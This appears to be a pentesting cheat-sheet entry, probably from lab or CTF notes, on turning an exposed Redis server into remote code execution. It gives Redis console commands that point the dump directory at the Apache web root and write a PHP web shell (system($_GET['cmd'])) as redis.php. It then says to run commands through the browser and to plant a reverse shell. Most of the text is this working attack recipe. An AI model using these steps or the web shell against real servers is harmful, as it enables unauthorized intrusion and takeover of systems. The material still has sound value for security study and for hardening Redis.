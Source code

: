 # Redis

Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker (from here). By default and commonly Redis uses a plain-text based protocol, but you have to keep in mind that it can also implement ssl/tls. Learn how to run Redis with ssl/tls here.

## RCE
Look for writeble folder: default page apache -> `/var/www/html`

```console
10.10.221.234:6379> config set dir /var/www/html
OK
10.10.221.234:6379> config set dbfilename redis.php 
OK                                                                              
10.10.221.234:6379> set test "<?php phpinfo(); ?>"                                             
OK                                                                         
10.10.221.234:6379> save                                                                        
OK
```

Go to http://<ip>/redis.php

If its working change it to command execution:

```console
set test "<?php system($_GET['cmd']);?>"
+OK
save
+OK
```
Run you browser with: http://<ip>/redis?cmd=whoami
Now you can place a URL encoded reverse shell.